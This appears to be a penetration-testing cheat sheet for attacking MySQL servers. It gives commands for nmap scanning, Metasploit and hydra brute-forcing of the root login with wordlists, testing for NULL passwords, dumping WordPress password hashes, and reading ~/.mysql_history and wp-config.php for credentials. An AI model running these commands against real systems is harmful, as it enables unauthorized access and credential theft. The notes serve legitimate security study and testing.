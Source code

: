 # MySQL

- Basic nmap scan.
```
nmap -Pn -sV -sC -p3306 <ip>
```

- Check for existing exploits.
```
searchsploit MySQL <version>
```
```
search MySQL <version>
```

- Check MySQL version.
```
use auxiliary/scanner/mysql/mysql_version
```

- Brute-force MySQL login.
  - Focus on root as other accounts may not have sufficient privileges for our intent.
  - root password can be NULL.
  - hydra does not attempt NULL password?
```
use auxiliary/scanner/mysql/mysql_login
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set VERBOSE false
```
```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> mysql
```

- Brute-forcing can result in host being blocked.
  - Need shell on target and MySQL account to run `mysqladmin flush-hosts`.
  - Avoid brute-forcing MySQL? Test for NULL credentials manually.
```
[ERROR] Host '<hostname>' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'
```

- Connect to MySQL remotely.
  - Press Enter for password if NULL.
```
mysql -u root -p -h <ip>
```

- Basic SQL commands.
```
show databases;
use <database>;
show tables;
select * from <table>;
```

- Check Web app database for hashed user credentials e.g. WordPress.
```
use wordpress;
select * from wp_users;
```

- Check users' mysql history file for credentials and other information.
```
cat ~/.mysql_history
```

- Check Web app config file for MySQL root password e.g. WordPress (WAMP).
  - Requires admin privileges.
```
meterpreter > cat C:\\wamp\\www\\wordpress\\wp-config.php

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', '');
```
